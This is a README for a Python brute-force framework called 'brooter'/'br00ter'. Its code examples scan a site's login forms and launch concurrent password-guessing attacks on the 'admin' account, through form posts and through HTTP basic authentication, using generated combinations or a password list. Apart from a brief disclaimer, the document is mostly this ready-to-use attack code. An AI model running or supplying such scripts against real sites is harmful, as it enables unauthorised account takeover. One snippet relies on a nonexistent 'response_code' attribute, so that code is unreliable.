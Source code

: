 # brooter
Easy and extensible brute force algorithms and utilities framework for Python

Please use responsibly. I, do not take responsibility for misuse or damages.
This software comes with no warranty. Don't do evil stuff.

Planned features:
+ Distributed processing

Do a scan for all forms on a webpage
```python
from br00ter import reverser

forms = reverser.scan_forms('http://vulnerable.website')
```
Construct a login request using information gathered from scanning the forms
```python
form = forms[0]
data = form.generate_data('admin', 'password_here')
```
...and POST the data to check the password
```python
import requests

requests.post('http://vulnerable.website', data=data)
```

Putting it together:
Automatically scan a webpage for forms and brute-force without any reverse-engineering required:
```python
import br00ter, requests
from br00ter import reverser

def test_login(combo): # Post to 'url' automatically generated form data and check for an OK response
    print('testing ' + combo)
    success = requests.post(url, data=form.generate_data(username, combo)).response_code == 200
    print(combo + str(success))
    return (combo, success)

if __name__ == '__main__':
    username = 'admin'
    url = 'http://vulnerable.website'
    form = reverser.scan_forms(url)[0]

    with br00ter.TableGenerator('abc', 3, 5) as x:
        print('Launching...')
        pool = br00ter.BrutePool(x, test_login)
        pool.start()
        pool.join()
```

Concurrent example for basic HTTP authentication:
```python
import br00ter, requests
from br00ter import targets

username = 'admin'

if __name__ == '__main__':
    sess = targets.BasicAuthTarget('http://vulnerable.website', requests.session(), username)
    with br00ter.FileGenerator('passlist.txt') as x:
        print('Launching...')
        pool = br00ter.BrutePool(x, sess.test)
        pool.start()
        pool.join()
```

